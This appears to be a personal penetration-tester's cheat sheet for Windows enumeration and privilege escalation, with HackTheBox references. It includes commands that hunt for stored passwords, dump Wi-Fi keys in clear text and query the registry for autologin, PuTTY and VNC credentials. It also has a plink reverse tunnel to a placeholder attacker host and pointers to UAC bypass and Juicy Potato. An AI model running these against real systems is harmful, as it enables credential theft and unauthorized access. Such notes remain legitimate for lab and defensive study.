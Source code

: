 # Windows Survey and Privilege Escalation

Windows commands, instrumentation, and powershell cmdlets for enumeration

System Information:
```
systeminfo
ver 
hostname

# only OS information 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# verbose hotfix (patch) info 
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn

# disk drives
wmic logicaldisk get caption,description,providername 
```

Enviornment variables:
```
set

# powershell
Get-ChildItem Env: | ft Key,Value
```

View the current user's information:
```
# username
whoami
echo %username%
$env:UserName

# user details
whoami /priv
whoami /all
net user <USERNAME>

# detailed account information and group memberships:
net user <USERNAME> 
```

Enumerate users and groups: 
```
# who else is logged in 
qwinsta

# local users
net user
net user <USERNAME>
Get-LocalUser

# domain users 
net user /domain 
net user <USERNAME> /domain

#search through user directories
tree /f /a C:\Users\<USERNAME>
Get-ChildItem C:\Users\<USERNAME> -Force

# local groups 
net localgroup
Get-LocalGroups

# users in the group
net localgroup <GROUP>
Get-LocalGroupMember <GROUP>

# domain groups 
net groups
net groups /domain

page 627
```
Networking:
```
ipconfig
ipconfig /all
route print
arp -a
type C:\windows\system32\drivers\etc\networks

# display active TCP/UDP connections:
netstat -ano

# connections with executeanle 
netstat -bano
```


Firewall Status:
```

# windows defender
sc query windefend



#what is the new command?
netsh advfirewall show state
netsh advfirewall show config
```


Password hunting:
```
# current directory
findstr /si password *.txt *.ini *.config *.xml

# look through payloadallthethings


# wifi passwords
netsh wlan show profile
netsh wlan show profile <SSID> key=clear | findstr "Key Content"
```


Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
sc queryex type= service 
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine

### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?


### Referenced Checklists
1. https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
2. 


